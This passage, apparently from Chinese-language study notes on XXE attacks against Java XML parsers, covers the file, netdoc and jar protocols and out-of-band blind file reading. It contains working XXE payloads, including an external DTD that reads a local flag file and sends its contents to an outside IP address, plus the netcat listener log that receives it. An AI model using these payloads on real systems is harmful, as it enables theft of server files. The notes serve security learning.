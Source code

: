 ![image-20220308165726725](Java中的XXE.assets/image-20220308165726725.png)

单纯的因为Java中的file协议可以列目录而PHP中的file协议不可以。



#### netdoc协议

同理，不过区别在于是`file:///`和`netdoc:/`，别的基本使用结果都一样的。



### 基于OOB的盲读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://121.5.169.223:39801/evil.xml">
%remote;]>
```

```shell
root@VM-0-6-ubuntu:~/java/xxe# cat evil.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://121.5.169.223:39802/?content=%file;'>">
%payload;
%send;

```

```shell
root@VM-0-6-ubuntu:~# nc -lnvp 39802
Listening on [0.0.0.0] (family 0, port 39802)
Connection from 222.90.96.246 12214 received!
GET /?content=flag{test} HTTP/1.1
User-Agent: Java/1.8.0_302
Host: 121.5.169.223:39802
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive



```

（实际上应该用ftp来接受数据，之后会提到）

### jar协议

```
jar:{url}!{path}
```

用于从url中下载压缩包解压文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "jar:http://127.0.0.1:39777/2.zip!/2.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```
